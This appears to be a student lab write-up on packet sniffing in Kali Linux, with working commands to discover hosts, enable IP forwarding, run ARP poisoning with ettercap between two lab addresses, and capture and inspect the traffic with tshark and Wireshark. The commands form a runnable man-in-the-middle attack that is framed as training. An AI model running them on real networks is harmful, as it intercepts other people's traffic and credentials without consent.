





# Lab 07 — Packet Sniffing using Ettercap and Wireshark

**Tools:** Ettercap · Wireshark · tshark  
**Platform:** Kali Linux

---

## Aim

To perform packet sniffing using Ettercap and Wireshark to capture and analyze network traffic, including ARP poisoning in a controlled environment.

## Theory

**Ettercap** is a comprehensive suite for man-in-the-middle (MITM) attacks on LAN. It supports:
- ARP poisoning to intercept traffic between two hosts
- Unified/bridged sniffing modes
- Plugin-based filtering and injection

Combined with Wireshark, a forensic analyst can capture and deeply inspect traffic flowing through a network — useful for detecting credential theft, rogue sessions, or malware communication.

> ⚠️ **Legal Notice:** ARP poisoning should only be performed in isolated lab environments with explicit permission. Unauthorized interception is illegal.

---

## Procedure

**Prepare the network environment**
```bash
ip addr show eth0 | grep 'inet '
nmap -sn 192.168.56.0/24                        # discover hosts
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward  # enable IP forwarding
cat /proc/sys/net/ipv4/ip_forward
```

**Start ARP poisoning**
```bash
sudo apt install ettercap-text-only -y
sudo ettercap -T -i eth0 -M arp:remote /192.168.56.1// /192.168.56.100//
```

**Capture traffic while attacking**
```bash
sudo tshark -i eth0 -w ~/evidence/ettercap_session.pcap &
# ... wait and collect traffic ...
sudo kill %1
wireshark ~/evidence/ettercap_session.pcap &
```

**Cleanup — IMPORTANT**
```bash
sudo pkill ettercap
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward    # disable forwarding
```

---

## Screenshots

| Step | Screenshot |
|------|------------|
| Network setup & IP configuration |  |
| ARP poisoning started with Ettercap |  |
| Wireshark TCP traffic analysis |  |
| Wireshark UDP/DNS traffic analysis |  |
| Target system (Metasploitable) network config |  |

---

## Conclusion

Ettercap performed ARP poisoning to position the attacker between two hosts, allowing full traffic interception. Wireshark confirmed the captured packets contained source/destination IPs, protocols, and data. This lab demonstrated how MITM attacks work and why encrypted protocols (HTTPS, SSH) are critical.
